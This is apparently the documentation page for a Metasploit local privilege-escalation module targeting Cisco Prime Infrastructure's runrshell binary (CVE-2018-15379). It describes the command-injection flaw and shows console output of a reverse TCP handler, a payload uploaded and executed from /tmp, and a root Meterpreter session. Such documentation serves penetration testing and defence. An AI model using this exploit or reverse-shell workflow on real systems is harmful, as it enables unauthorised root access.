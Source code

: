 ## Vulnerable Application

This modules exploits a vulnerability in Cisco Prime Infrastructure's runrshell binary. The runrshell binary is meant to execute
a shell script as root, but can be abused to inject extra commands in the argument, allowing you to execute anything as root.
It was originally discovered by Pedro Ribeiro, and chained in the CVE-2018-15379 exploit.

## Scenarios

```
msf exploit(linux/local/cpi_runrshell_priv_esc) > run

[*] Started reverse TCP handler on 192.168.0.21:4444 
[*] Uploading /tmp/mYVrqmsETa.bin
[*] chmod the file with +x
[*] Executing /tmp/mYVrqmsETa.bin
[*] Sending stage (985320 bytes) to 192.168.0.23
[*] Meterpreter session 4 opened (192.168.0.21:4444 -> 192.168.0.23:55554) at 2019-06-10 11:18:13 -0500
[+] Deleted /tmp/mYVrqmsETa.bin

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > 
```

